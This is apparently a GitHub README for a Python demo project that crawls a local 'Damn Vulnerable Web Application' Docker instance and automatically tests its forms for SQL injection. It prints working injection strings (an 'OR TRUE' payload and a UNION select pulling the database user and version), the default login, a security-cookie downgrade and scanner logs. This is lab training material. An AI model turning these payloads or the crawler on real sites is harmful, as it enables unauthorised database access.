

# demo-python-three

## description
search a 'remote' target hosting a **'damn vulnerable web application'** instance for an sql injection vulnerability

## installation / setup
```
> docker search dvwa
> docker pull citizenstig/dvwa
> docker images
> docker run -d -p 80:80 citizenstig/dvwa
```
yields a 'target host' at `http://localhost:80/`

optionally use..
```
> docker ps -a
> docker exec -it 8a021ce97f45 /bin/bash
> cd /var/www/html/
```
..for a rummage around the service's files

the compromise is only possible for a lowered security version of the site, configurable by insecure `security` cookie override `impossible` -> `low` post login

```
> waterfox 127.0.0.1/login.php
username: 'admin' / password: 'password'
> waterfox 127.0.0.1/vulnerabilities/sqli/index.php
S-f2 (mozilla developer bar) -> cookie set security low
```

## sql injection exploitation
confirmation of the vulnerability can be observed via the multiple return records visible following POST of the following `id`:
```
"-1 OR TRUE #"
```
returning:
```
ID: -1' OR TRUE #
First name: admin
Surname: admin

ID: -1' OR TRUE #
First name: Gordon
Surname: Brown

ID: -1' OR TRUE #
First name: Hack
Surname: Me

ID: -1' OR TRUE #
First name: Pablo
Surname: Picasso

ID: -1' OR TRUE #
First name: Bob
Surname: Smith
```

php's `mysql_query` filters multiple statements by default to make sql injection harder / less destructive ..but alas, composite select statements are still single statements, so via use of sql UNIONs arbitrary selects can be made ..although in this instance not easily recovered given the shape of the hard coded field selection criteria, limiting us to **'\*x2'** output dimensions

extracting the database version and user can be achieve by:
```
"-1' union select user(), @@version #"
```
yielding
```
ID: -1' union select user(), @@version #
First name: admin@localhost
Surname: 5.5.47-0ubuntu0.14.04.1
```

## automation: 'spider' - the crawler
python based crawler..

### usage
```
usage: spider.py [-h] [-s] [-p PORT] [-dr DELAY] [-v LEVEL] TARGET

Given a target host's root, 'spider' searches for basic sql injection
vulnerabilities and returns the database user and version where successful

positional arguments:
  TARGET                (master mode) base url to initialise crawl from |
                        (slave mode) host address of master to work for

optional arguments:
  -h, --help            show this help message and exit
  -s, --slave           run in slave mode, connecting to master at
                        'TARGET:10080'
  -p PORT, --port PORT  override the default port for listening (master mode),
                        or connecting (slave mode)
  -dr DELAY, --delay-requests DELAY
                        add a delay (ms) to the processing of each url
  -v LEVEL, --verbosity LEVEL
                        increase the level of information output
```

### example
##### simple
```
> python ./spider.py localhost

[info] logging in at 'http://localhost/login.php'
[info] crawled site 'http://localhost' and found 12 urls with forms to test
[info] 1 sql injection vulnerability identified at:
url: 'http://localhost/vulnerabilities/sqli/'
data: 'version|5.5.47-0ubuntu0.14.04.1, user|admin@localhost'
```
##### master / slave
```
master

> python ../spider.py --verbosity 2 --delay-requests 500 localhost
[info] running in master mode, targetting 'localhost'
[debug] starting server for master instance
[debug] scraping: 'http://localhost'
[info] logging in at 'http://localhost/login.php'
[debug] updated cookies:
[debug]
[debug] overrode security cookie:
[debug] PHPSESSID=23at8ll9t3cai2hmplpoh39o42; path=/; httponly; security=low
[debug] scraping: 'http://localhost/'
[debug] scraping: 'http://localhost/instructions.php'
[debug] pushing url 'http://localhost/vulnerabilities/brute/' to slave
[debug] scraping: 'http://localhost/setup.php'
[debug] scraping: 'http://localhost/vulnerabilities/exec/'
[debug] received 20 scraped links from slave
[debug] pushing url 'http://localhost/vulnerabilities/fi/' to slave
[debug] scraping: 'http://localhost/vulnerabilities/csrf/'
[debug] scraping: 'http://localhost/vulnerabilities/upload/'
[debug] received 1 scraped links from slave
[debug] pushing url 'http://localhost/vulnerabilities/sqli/' to slave
[debug] scraping: 'http://localhost/vulnerabilities/captcha/'
[debug] received 23 scraped links from slave
[debug] scraping: 'http://localhost/vulnerabilities/sqli_blind/'
[debug] pushing url 'http://localhost/vulnerabilities/xss_r/' to slave
[debug] scraping: 'http://localhost/vulnerabilities/xss_s/'
[debug] received 22 scraped links from slave
[debug] pushing url 'http://localhost/phpinfo.php' to slave
[debug] scraping: 'http://localhost/security.php'
[debug] scraping: 'http://localhost/about.php'
[debug] scraping: 'http://localhost/ids_log.php'
[debug] no work remaining for master process
[debug] 1 item remaining in the 'processing' queue due to slave workers, waiting..
[debug] received 2 scraped links from slave
[info] crawled site 'http://localhost' and found 12 urls with forms to test
[debug] testing for sql-injection vulnerability on form at 'http://localhost/setup.php'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/exec/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/brute/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/csrf/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/upload/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/captcha/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/sqli_blind/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/sqli/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/xss_s/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/vulnerabilities/xss_r/'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/security.php'
[debug] testing for sql-injection vulnerability on form at 'http://localhost/ids_log.php'
[info] 1 sql injection vulnerability identified at:
url: 'http://localhost/vulnerabilities/sqli/'
data: 'version|5.5.47-0ubuntu0.14.04.1, user|admin@localhost'

-----

slave

> python ../spider.py --verbosity 1 --delay-requests 1000 --slave localhost
[info] running in slave mode, connecting at 'http://localhost:10080'
[debug] scraping: 'http://localhost/vulnerabilities/brute/'
[info] logging in at 'http://localhost/login.php'
[debug] scraping: 'http://localhost/vulnerabilities/fi/'
[debug] scraping: 'http://localhost/vulnerabilities/sqli/'
[debug] scraping: 'http://localhost/vulnerabilities/xss_r/'
[debug] scraping: 'http://localhost/phpinfo.php'
```

### architectual framework components
#### user input
- provide target / root
- reset target cache
- node mode, server (default) / worker
#### node container
- scraping / parsing logic
- identify further urls
#### runner
- server, providing communication end-points to farm out available work
- output results
- block node operations while not logged in
- url pools, maps for processed / processing / to process, mutexes for access
#### storage
- user/node states, authenticate logon
- urls, semi-regularly synchronised with memory pools for recovery
- results, vulnerable urls
#### api
- get_scrape_url_next
- send_scraped_urls
#### unit test suite
- api handles
- mock vulnerable server with static form templates

### architectural design (C4 methodolody)


## testing
```
> python src/tests.py
```

## todo
- state implementation
- restore / reset existing state cmdline and interactive options
- docstrings
- test suite
- track url_pools diffs for state sync
- crawl link subpaths for isolated (no linked) resources
- make result deduction template agnostic via pre / post exploit diff to
extract results from unknown DOM position
- custom credentials cmdline option
- support multiple credentials sets
- parse robots.txt for valid paths, etiquette abuse
- support multiple slaves

## dependencies
- docker
- dvwa
- tornado
- pycurl
- libcurl
- beautifulsoup
- lxml
